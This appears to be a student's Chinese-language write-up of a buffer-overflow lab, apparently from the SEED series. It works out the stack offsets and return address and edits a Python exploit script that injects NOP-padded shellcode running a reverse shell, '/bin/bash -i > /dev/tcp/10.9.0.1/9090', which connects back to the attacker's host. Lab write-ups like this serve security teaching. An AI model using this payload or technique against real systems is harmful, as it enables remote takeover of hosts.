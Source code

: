 `ret` 指令将栈顶元素出栈，然后跳转到这个地址，即代码中的 `ret`，进入 `dummy_fuction` 的栈帧。程序执行若干条填充的 `nop` 指令后进入 `shellcode`。因此构造方式如下：

- 获取本主机的 IP 地址、`ebp` 的值、`buffer` 起始位置的值：

  ![屏幕截图(240)](C:\Users\杨乙\Pictures\Screenshots\屏幕截图(240).png)

- 设置 `shellcode`，与 shellcode_32.py 中的值相同即可，将命令改为：

  ```
  /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1
  ```

  在被攻击主机上启动一个交互式的 bash shell，将 bash 的标准输出重定向到 IP 地址为 `10.9.0.1` 的主机的 `9090` 端口，且将标准输入和标准错误重定向到标准输出，使它们都发送到 TCP 连接

- `start` 设置为 `517 - len(shellcode)`，令 `shellcode` 占据 `content` 后半部分

- 返回地址 `ret` 要放在 `ebp` 指向位置的前一个位置，因此 `offset = 0xffffd268 + 0x4 - 0xffffd1f8`

- `ret` 指向的地址要位于 `dummy_fuction` 的栈帧中，且位于 `shellcode` 的低地址处，这里取 `0xffffd268 + 0x10`

此时程序栈的结构如下：

<img src="C:\Users\杨乙\Pictures\Screenshots\c2798272453620c266431c600dc831a.jpg" alt="c2798272453620c266431c600dc831a" style="zoom:25%;" />

程序改动如下：

```python
shellcode= (
   # ......
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   # ......
).encode('latin-1')

# ......

start = 517 - len(shellcode)                # Change this number 

# ......

ret    = 0xffffd268 + 0x10     				# Change this number 
offset = 0xffffd268 + 0x4 - 0xffffd1f8      # Change this number 
```

运行结果：

![屏幕截图(239)](C:\Users\杨乙\Pictures\Screenshots\屏幕截图(239).png)

成功取得了远程主机的控制权限











